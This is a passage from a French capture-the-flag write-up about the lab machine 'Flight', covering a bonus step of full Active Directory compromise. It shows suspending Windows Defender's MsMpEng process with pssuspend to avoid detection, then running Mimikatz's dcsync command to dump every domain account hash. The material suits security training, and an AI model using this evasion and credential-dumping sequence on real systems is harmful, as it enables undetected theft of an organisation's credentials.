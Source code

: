 ## Bonus : compromission totale de l'Active Directory

Pour le plaisir, et dans l'optique de simuler une action de persistance sur l'active directory, on va maintenant récupérer la base NTDS.DIT (base de donnée contenant les hashes de tous les comptes utilisateurs de l'active directory).

Nous utiliserons l'outil le plus connu à savoir, l'incontournable `Mimikatz`.
Cet outil était détecté par tous les antivirus qui se respecte, nous vérifions tout d'abord si un Anti Virus s'exécute sur la machine en affichant la liste des processus s'exécutant sur la machine :

```powershell
PS > get-process | Select Name | sort 
#[...]
MsMpEng
#[...]
```

On reconnaît le processus `MsMpEng` qui est le module anti malware de Windows Defender.

On le désactive en suspendant ce processus : 

```
# on dépose sur la machine pssuspend.exe depuis live.sysinternals.com

PS > ./pssuspend.exe -accepteula MsMpEng

PsSuspend v1.07 - Process Suspender
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals

Process MsMpEng suspended.
```

On peut maintenant agir sans risquer de se faire détecter par Windows Defender :

- On upload `Mimikatz.exe`
- On exécute ensuite : `mimikatz.exe "lsadump::dcsync /domain:flight.htb /all /csv"`
![Flight-13](../../Flight-13.png)
